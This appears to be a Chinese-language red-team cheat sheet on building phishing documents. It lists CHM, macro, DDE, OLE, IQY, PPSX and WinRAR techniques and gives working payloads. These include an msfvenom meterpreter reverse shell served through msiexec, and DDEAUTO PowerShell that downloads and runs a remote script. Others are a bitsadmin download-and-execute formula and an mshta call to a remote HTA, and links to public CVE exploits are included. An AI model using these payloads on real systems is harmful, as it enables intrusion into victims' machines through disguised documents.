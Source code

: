 ### 钓鱼文件

- 1.传统宏文件
2.CHM钓鱼
	index.html
	<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
	command exec 
	<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
	<PARAM name="Command" value="ShortCut">
	 <PARAM name="Button" value="Bitmap::shortcut">
	 <PARAM name="Item1" value=", calc.exe">
	 <PARAM name="Item2" value="273,1,1">
	</OBJECT>
	<SCRIPT>
	x.Click();
	</SCRIPT>
	</body></html>
	EasyCHM工具生成即可
3.https://github.com/0x09AL/CVE-2018-8174-msf
4.Windows 快捷键
	msfvenom -p windows/meterpreter/reverse_tcp lhost=xxxx lport=1234 -f msi > shell.txt
	c:\windows\system32\msiexec.exe /q /i http://xxxx/shell.txt
5.构造DDE钓鱼文档
	创建一个文档,打开后Ctrl + f9快捷键创建一个域,在花括号中添加
	DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe"
	DDEAUTO "C:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://xx.xx.xx.xx/1.ps1'); # " "Microsoft Document Security Add-On"
6.word中插入外部对象(OLE)方式欺骗
	打开文档后点击对象，由文件创建，文件名:http://xxxx/artifact.exe 点击后上线
7.IQY特性钓鱼
	powershell –exec bypass –Command "& {Import-Module 'C:\xx\nishang-master\Client\Out-WebQuery.ps1';Out-WebQuery -URL http://192.168.1.5/iqy.html}"
	iqy.html
	=cmd|' /c bitsadmin /transfer c6c5 http://ip:port/a %APPDATA%\c6c5.exe&%APPDATA%\c6c5.exe&del %APPDATA%\c6c5.exe '!A0
	excel打开iqy文件 启用
8.PPT 动作按钮特性构造 PPSX钓鱼
	操作设置 鼠标悬停 运行程序 c:\windows\system32\mshta.exe http://xxxx/xx.hta
	保存成ppsx格式
	启用
9.RAR解压钓鱼
	WinRAR漏洞exp:
	https://github.com/WyAtu/CVE-2018-20250

## 企业信息

### 微信公众号

### 天眼查
